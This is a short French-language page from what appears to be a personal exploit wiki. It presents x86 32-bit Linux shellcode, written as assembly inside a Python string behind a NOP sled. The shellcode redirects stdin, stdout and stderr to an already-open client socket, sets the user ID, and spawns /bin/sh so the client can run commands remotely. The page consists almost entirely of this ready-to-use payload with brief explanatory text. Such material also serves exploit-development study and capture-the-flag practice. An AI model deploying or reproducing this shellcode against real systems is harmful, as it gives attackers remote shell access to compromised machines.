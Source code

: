 ```yaml
---
layout: default
title: Hexwreaker Expoitpedia
---
```

#### [ExploitPedia](/pages/exploitpedia/exploitpedia)

    Cible : x86 32 bits

Le shellcode suivant permet de converger les entrées et sorties standards (**stdin, stdout, stderr**) vers le socket du client. Puis, il permet d'ouvrir un terminal afin que le client exécute des commandes à travers le socket.

Le **fd** du socket, précédemment ouvert est récupéré dans la pile au début du shellcode (pop edi; pop edi).


```python
asm_code  = "nop;"*150
asm_code += """
# dup2(socket_fd, stdin)
    pop edi
    pop edi
    mov ebx, edi
    xor eax, eax
    mov ecx, eax
    mov al, 0x3f
    int 0x80
# dup2(socket_fd, stdout)
    mov ebx, edi
    mov ecx, 0x1
    xor eax, eax
    mov al, 0x3f
    int 0x80
# dup2(socket_fd, stderr)
    mov ebx, edi
    mov ecx, 0x2
    xor eax, eax
    mov al, 0x3f
    int 0x80
# setreuid(0x4d0, ...)
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    mov bx, 0x4d0
    mov cx, 0x4d0
    mov al, 0x46
    int 0x80
# execve("/bin//sh")
    xor eax, eax ;  # eax = 0
    push eax ; 
    push 0x68732f2f ; 
    push 0x6e69622f ; 
    mov ebx, esp ;   # ebx = &"/bin//sh"
    push eax ; 
    mov edx, esp ;
    push ebx ; 
    mov ecx, esp ;   # ecx = &args
    mov al, 0xb ;   # eax = 0xb
    int 0x80
"""
```





